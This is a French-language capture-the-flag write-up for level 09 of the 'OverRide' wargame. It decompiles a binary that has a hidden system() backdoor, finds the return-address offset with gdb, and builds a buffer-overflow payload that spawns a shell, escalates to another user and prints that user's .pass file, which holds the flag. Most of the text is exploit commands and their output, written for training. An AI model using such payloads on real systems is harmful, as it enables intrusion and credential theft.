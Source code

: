 # **Level 09**

Pour ce `level09` nous decompilons l'executable

```
#include <defs.h>


int secret_backdoor()
{
  char s[128]; // [rsp+0h] [rbp-80h] BYREF

  fgets(s, 128, stdin);
  return system(s);
}

char * set_msg(int a1)
{
  char s[1024]; // [rsp+10h] [rbp-400h] BYREF

  memset(s, 0, sizeof(s));
  puts(">: Msg @Unix-Dude");
  printf(">>: ");
  fgets(s, 1024, stdin);
  return strncpy((char *)a1, s, *(int *)(a1 + 180));
}

int set_username(int a1)
{
  char s[140]; // [rsp+10h] [rbp-90h] BYREF

  memset(s, 0, 128);
  puts(">: Enter your username");
  printf(">>: ");
  fgets(s, 128, stdin);
  for ( int i = 0; i <= 40 && s[i]; ++i )
    *(a1 + i + 140) = s[i];
  return printf(">: Welcome, %s", (const char *)(a1 + 140));
}

int handle_msg()
{
  char v1[140]; // [rsp+0h] [rbp-C0h] BYREF //0x7fffffffe0d0

  set_username((int)v1);
  set_msg((int)v1);
  return puts(">: Msg sent!");
}

int main(int argc, const char **argv, const char **envp)
{
  puts(
    "--------------------------------------------\n"
    "|   ~Welcome to l33t-m$n ~    v1337        |\n"
    "--------------------------------------------");
  handle_msg();
  return 0;
}
```

Pour ce niveau, nous avons `deux` inputs, le premier est ecrit dans les adresse entre `v1 + 140` et `v1 + 180` et le second est 
ecrit dans `v1` avec une taille correspondant au contenue de `v1 + 180` que l'on peux ecrire grace au premier input. Donc nous ecrirons le maximum, `\xff`.

Notre but va donc etre de reecrire sur l'addresse utiliser par le `ret` de `handle_msg` pour jump sur `secret_backdoor`

Pour ce faire nous allons determiner la position de cette adresse. Pour ce faire nous generons une sequenece de 255 chiffre aleatoire

```
➜  trashfile python test.py
971681244935563299095701066299655488814374609664275905902473332469537890711589669689642906128513824137099822502903637615294721734102055690452056575499650179018468417448128247378537802426190752413283624686016607217117582797123290324373876622152693229169370
```
Puis dans gdb nous regardons les regitres

```
(gdb) i r
rax            0xd	13
rbx            0x0	0
rcx            0x7ffff7b01f90	140737348902800
rdx            0x7ffff7dd5a90	140737351867024
rsi            0x7ffff7ff7000	140737354100736
rdi            0xffffffff	4294967295
rbp            0x3236333832333134	0x3236333832333134
rsp            0x7fffffffe198	0x7fffffffe198
r8             0x7ffff7ff7004	140737354100740
r9             0xc	12
r10            0x7fffffffda40	140737488345664
r11            0x246	582
r12            0x555555554790	93824992233360
r13            0x7fffffffe280	140737488347776
r14            0x0	0
r15            0x0	0
rip            0x555555554931	0x555555554931 <handle_msg+113>
eflags         0x10246	[ PF ZF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```

Il y a cette chaine dans `rbp` : 0x3236333832333134 qui correspond a `41328362` soit apres le 192eme caractere. Comme rbp et `rip` sont stocke a cote dans la memoire `rip` devrait etre apres `200` caracteres

```
level09@OverRide:~$ (python -c "print'a'*40+'\xff'"; python -c "print'a'*200+'abc'") > /var/crash/file
(gdb) 
Single stepping until exit from function handle_msg,
which has no line number information.
0x000000000a636261 in ?? ()
```

Maintenant il nous faut trouver l'addresse de `secret_backdoor`

```
(gdb) disas secret_backdoor 
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:	push   %rbp
   0x000055555555488d <+1>:	mov    %rsp,%rbp
   0x0000555555554890 <+4>:	add    $0xffffffffffffff80,%rsp
   0x0000555555554894 <+8>:	mov    0x20171d(%rip),%rax        # 0x555555755fb8
   0x000055555555489b <+15>:	mov    (%rax),%rax
   0x000055555555489e <+18>:	mov    %rax,%rdx
   0x00005555555548a1 <+21>:	lea    -0x80(%rbp),%rax
   0x00005555555548a5 <+25>:	mov    $0x80,%esi
   0x00005555555548aa <+30>:	mov    %rax,%rdi
   0x00005555555548ad <+33>:	callq  0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:	lea    -0x80(%rbp),%rax
   0x00005555555548b6 <+42>:	mov    %rax,%rdi
   0x00005555555548b9 <+45>:	callq  0x555555554740 <system@plt>
   0x00005555555548be <+50>:	leaveq 
   0x00005555555548bf <+51>:	retq   
End of assembler dump.
```
Nous pouvons ecrire notre payload

```
level09@OverRide:~$ (python -c "print'a'*40+'\xff'"; python -c "print'a'*200+'\x8c\x48\x55\x55\x55\x55\x00\x00'"; python -c "print'/bin/sh'") > /var/crash/file 
level09@OverRide:~$ cat /var/crash/file - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
id
uid=1010(level09) gid=1010(level09) euid=1009(end) egid=100(users) groups=1009(end),100(users),1010(level09)
cat /home/users/end/.pass            
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

Et voila pour override !
